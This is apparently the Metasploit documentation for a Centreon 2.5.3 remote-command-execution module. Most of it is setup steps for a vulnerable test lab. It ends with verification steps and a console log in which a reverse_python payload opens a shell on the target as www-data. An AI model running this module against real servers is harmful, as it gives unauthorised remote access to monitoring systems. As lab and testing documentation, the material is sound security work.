 ## Vulnerable Application

1. [Exploit-db](https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz)
2. Archived Copy: [github](https://github.com/h00die/MSF-Testing-Scripts)

### Creating A Testing Environment

Creating a testing environment for this application contained many steps, so I figured I would document the process here.

  1. Create a fresh install of Ubuntu 16.04.  I used a LAMP install. My user was `centreon`
  2. Install php5.6 [askubuntu](http://askubuntu.com/questions/756181/installing-php-5-6-on-xenial-16-04)
```
sudo apt purge `dpkg -l | grep php| awk '{print $2}' |tr "\n" " "`
sudo add-apt-repository ppa:ondrej/php
sudo apt-get install php5.6
sudo apt-get install php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml php5.6-gd php5.6-ldap php5.6-sqlite3
sudo apt-get install build-essential cmake librrd-dev libqt4-dev libqt4-sql-mysql libgnutls28-dev
sudo apt-get install tofrodos bsd-mailx lsb-release mysql-server libmysqlclient-dev apache2 php-pear rrdtool librrds-perl libconfig-inifiles-perl libcrypt-des-perl libdigest-hmac-perl libgd-gd2-perl snmp snmpd libnet-snmp-perl libsnmp-perl
  select OK
  select No Configuration
sudo apt-get install snmp-mibs-downloader
```
  3. Enable php5.6 in Apache with `a2enmod`, disable php7.0 with `a2dismod`
```
a2enmod php5.6
a2dismod php7.0
```
  4. Restart apache with `sudo apache2ctl restart`
  5. Install [Nagios Plugins](https://assets.nagios.com/downloads/nagioscore/docs/nagioscore/3/en/quickstart-ubuntu.html) starting at step 6.  The plugins link is broken, utilize [nagios-plugins-2.1.1.tar.gz](http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz) instead
```
wget http://www.nagios-plugins.org/download/nagios-plugins-2.1.1.tar.gz
tar xvf nagios-plugins-2.1.1.tar.gz
cd nagios-plugins-2.1.1/
./configure
make
sudo make install
```
  6. Install [Centreon clib](https://documentation.centreon.com/docs/centreon-clib/en/latest/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-clib
cd centreon-clib/build
cmake .
make
sudo make install
```
  7. Install [Centreon Broker](https://documentation.centreon.com/docs/centreon-broker/en/2.11/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-broker
cd centreon-broker/build/
cmake -DWITH_STARTUP_DIR=/etc/init.d -DWITH_STARTUP_SCRIPT=sysv .
make
sudo make install
```
  8. Install [Centreon Engine](https://documentation.centreon.com/docs/centreon-engine/en/latest/installation/index.html)
```
cd ~
git clone https://github.com/centreon/centreon-engine
cd centreon-engine/build/
cmake -DWITH_STARTUP_DIR=/etc/init.d -DWITH_STARTUP_SCRIPT=sysv .
make
sudo make install
```
  9. Now install [Centreon Web](https://documentation.centreon.com/docs/centreon/en/2.5.x/installation/from_sources.html) but only the command line portion.
```
sudo mkdir /var/log/centreon-engine
cd ~
sudo pear install XML_RPC-1.4.5
wget https://www.exploit-db.com/apps/bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz
tar vxf bf269a17dd99215e6dc5d7755b521c21-centreon-2.5.3.tar.gz
cd centreon-2.5.3
sudo ./install.sh -i
  <enter>
  q
  y
  y
  y
  y
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  y
  <enter>
  <enter>
  <enter>
  centreon
  <enter>
  /var/log/centreon-engine
  /home/centreon/nagios-plugins-2.1.1/plugins
  <enter>
  /etc/init.d/centengine
  /usr/local/bin/centengine
  /usr/local/etc/
  /usr/local/etc/
  /etc/init.d/centengine
  <enter>
  y
  y
  y
  <enter>
  y
  <enter>
  <enter>
  y
  y
  <enter>
  y
  y
  <enter>
  y
  <enter>
  <enter>
  y
  y
```
  10. Fix apache config
```
sudo cp /etc/apache2/conf.d/centreon.conf /etc/apache2/conf-available/
sudo sed -i 's/Order allow,deny/Require all granted/' /etc/apache2/conf-available/centreon.conf
sudo sed -i 's/allow from all//' /etc/apache2/conf-available/centreon.conf
sudo a2enconf centreon
sudo service apache2 reload
```
  11. Configure via website.  Browse to <ip>/centreon
```
next
next
select centreon-engine
  /usr/local/lib/centreon-engine
  /usr/local/bin/centenginestats
  /usr/local/lib/centreon-engine
  /usr/local/lib/centreon-engine
  /usr/local/lib/centreon-engine
  next
select centreon-broker
  /usr/local/lib/centreon-broker
  /usr/local/lib/cbmod.so
  /usr/local/lib/centreon-broker
  /usr/local/lib/centreon-broker
  /usr/local/lib/centreon-broker
  next
Pick whatever details about your user you want, next
Fill in mysql Root password, next
next
next
finish
```
## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/linux/http/centreon_useralias_exec`
  4. Do: `set payload`
  5. Do: `set rhost`
  6. Do: `check`
  7. Do: ```run```
  8. You should get a shell.

## Scenarios

Just a standard run.

    msf > use exploit/linux/http/centreon_useralias_exec
    msf exploit(centreon_useralias_exec) > set payload cmd/unix/reverse_python
    payload => cmd/unix/reverse_python
    msf exploit(centreon_useralias_exec) > set lhost 192.168.2.229
    lhost => 192.168.2.229
    msf exploit(centreon_useralias_exec) > set rhost 192.168.2.85
    rhost => 192.168.2.85
    msf exploit(centreon_useralias_exec) > set verbose true
    verbose => true
    msf exploit(centreon_useralias_exec) > check
    [+] Version Detected: 2.5.3
    [*] 192.168.2.85:80 The target appears to be vulnerable.
    msf exploit(centreon_useralias_exec) > exploit
    [*] Started reverse TCP handler on 192.168.2.229:4444 
    [*] Sending malicious login
    [*] Command shell session 1 opened (192.168.2.229:4444 -> 192.168.2.85:36792) at 2016-06-11 20:44:57 -0400
    whoami
    www-data
    uname -a
    Linux centreon 4.4.0-21-generic #37-Ubuntu SMP Mon Apr 18 18:33:37 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
  